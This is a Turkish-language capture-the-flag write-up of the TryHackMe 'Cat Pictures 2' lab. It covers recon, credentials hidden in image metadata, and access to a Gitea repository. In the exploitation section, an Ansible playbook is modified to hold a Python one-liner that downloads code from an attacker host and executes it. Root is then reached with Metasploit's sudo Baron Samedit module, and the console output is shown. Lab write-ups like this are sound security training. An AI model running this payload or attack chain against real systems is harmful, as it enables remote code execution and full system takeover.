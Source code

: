 ```yaml
---
title: 'TryHackMe | Cat Pictures 2 WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [ansible, gitea, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_cat_pictures2/
image:
  path: logo.webp
---
```


## Özet

Cat Pictures 2, gitea servisinde paylaşılmış bir ansible dosyasını çalıştıran, kolay seviye bir linux makinedir. Exiftool aracılığıyla bulduğumuz kullanıcı bilgilerini kullanarak gitea servisine giriş yapacak ve paylaşılan tek repo içerisindeki playbook.yaml dosyasına reverse shell komutumuzu yapıştıracağız. Bağlantı sonrasında ise `baron samedit` exploitinden yararlanarak yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.224.169
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-24 03:12 EDT
Nmap scan report for 10.10.224.169
Host is up (0.091s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:f0:03:36:26:36:8c:2f:88:95:2c:ac:c3:bc:64:65 (RSA)
|   256 4f:f3:b3:f2:6e:03:91:b2:7c:c0:53:d5:d4:03:88:46 (ECDSA)
|_  256 13:7c:47:8b:6f:f8:f4:6b:42:9a:f2:d5:3d:34:13:52 (ED25519)
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
|_http-title: Welcome to nginx!
|_http-server-header: SimpleHTTP/0.6 Python/3.6.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 ve 8080 numaralı portların açık olduğunu öğreniyoruz.

### 80 numaralı portun incelenmesi

![](1.webp){: width="1000" height="500" }

Ana sayfada kedilerin bulunduğu bir albüm var. Albümdeki resimleri incelerken bir resmin açıklamasında meta verilerini kontrol etmem gerektiği ile ilgili bir yazı ile karşılaştım.

![](2.webp){: width="1200" height="600" }

Exiftool ile dosyanın meta verilerini çıkardığımızda "title" parametresinin içerisinde 8080 numaralı HTTP servisinde bulunan bir dosya yolunu gösterdiğini görüyoruz.

```console
$ exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
...
Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt
...
```

Bu dosyanın içerisinde ise kullanıcı bilgileri ile beraber gitea uygulamasının ve üzerinde paylaşılmış olan bir uygulamanın bulunduğu port numarası yer alıyor.

```console
$curl 10.10.224.169:8080/764efa883dda1e11db47671c4a3bbd9e.txt
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: ****
password: ****

ansible runner (olivetin): port 1337
```

### 3000 numaralı portun incelenmesi

![](3.webp){: width="1200" height="600" }

Verilen kullanıcı bilgileri ile gitea uygulamasına giriş yaptıktan sonra kullanıcının repolarını görmek için profil sayfasına gittim. Burada `ansible` adında bir repo bulunuyor. İçerisinde ise bulmamız gereken bayraklardan biri ve bir playbook.yaml dosyası bulunuyor. playbook.yaml dosyasının içeriğini aşağıda görüyorsunuz.

```yaml
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: whoami
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```

### 1337 numaralı portun incelenmesi

![](4.webp){: width="1200" height="600" }

Burada bir takım işler yapabileceğimiz ve yaptığımız işlerin kayıtlarını görüntüleyebileceğimiz bir uygulama bulunuyor.

![](5.webp){: width="1000" height="500" }

## Sömürü aşaması

1337 numaralı portta çalışan uygulamadaki `run ansible` seçeneği büyük ihtimalle 3000 numaralı portta çalışan gitea sayfasındaki ansible dosyasını çalıştırıyor. Bu dosyanın komut çalıştırıldığı alanına shell alabileceğimiz bir komut girer ve 1337 numaralı porttaki `run ansible` butonuna tıklarsak shell alabiliriz. Öncelikle dosyayı düzenleyelim.

```yaml
---
- name: Test
  hosts: all                                  # Define all the hosts
  remote_user: bismuth
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: python3 -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://10.21.66.61:8080/n9trzcfCpQLzCS', context=ssl._create_unverified_context());exec(r.read());"
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```

Dosyayı düzenledikten sorna 1337 numaralı porta dönüyor ve `run ansible` butonuna tıklıyoruz. Bir kaç saniye içinde komut çalıştırılıyor ve bağlantımızı alıyoruz.

![](6.webp){: width="1200" height="600" }

## Yetki yükseltme

### root

Sistemdeki zafıylıkları tespit etmek için metasploitte bulunan `linux exploit suggester` modülünü kullanacağım.

```console
(Meterpreter 1)(/home/bismuth) > run post/multi/recon/local_exploit_suggester
 1   exploit/linux/local/ansible_node_deployer                           Yes                      The target appears to be vulnerable. ansible playbook executable found
 2   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 4   exploit/linux/local/nested_namespace_idmap_limit_priv_esc           Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 6   exploit/linux/local/runc_cwd_priv_esc                               Yes                      The target appears to be vulnerable. Version of runc detected appears to be vulnerable: 1.1.4
 7   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 8   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.21.2 is a vulnerable build.
 9   exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.21p2.pre.3ubuntu1 is vulnerable, but unable to
```

Tarama sonucunda sistemde bir çok zafiyetin barındığını öğreniyoruz. İlk baştaki `ansible_node_deployer` eploitini önermesinin sebebi biraz önce düzenlemiş olduğumuz playbook.yaml dosyası olabilir. Onu görmezden gelip diğer exploitleri kullanarak yetki yükseltmeye çalışalım.

```console
[msf](Jobs:2 Agents:1) exploit(linux/local/sudo_baron_samedit) >> exploit
[*] Started reverse TCP handler on 10.21.66.61:4003 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. sudo 1.8.21.2 is a vulnerable build.
[*] Using automatically selected target: Ubuntu 18.04 x64 (sudo v1.8.21, libc v2.27)
[*] Writing '/tmp/OJAAkP.py' (763 bytes) ...
[*] Writing '/tmp/libnss_Hcwd/DJ .so.2' (548 bytes) ...
[*] Sending stage (3045380 bytes) to 10.10.224.169
[+] Deleted /tmp/OJAAkP.py
[+] Deleted /tmp/libnss_Hcwd/DJ .so.2
[+] Deleted /tmp/libnss_Hcwd
[*] Meterpreter session 2 opened (10.21.66.61:4003 -> 10.10.224.169:59382) at 2025-03-24 03:56:49 -0400

(Meterpreter 2)(/tmp) > cd /root
(Meterpreter 2)(/root) > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
...
100644/rw-r--r--  33    fil   2022-11-07 14:26:43 -0500  flag3.txt
(Meterpreter 2)(/root) > cat flag3.txt 
6d2***971
```

Exploitlerin bir çoğu eksik araç veya yetki yüzünden çalışmadı. Ancak `sudo_baron_samedit` exploiti ile yetki yükseltebildim.
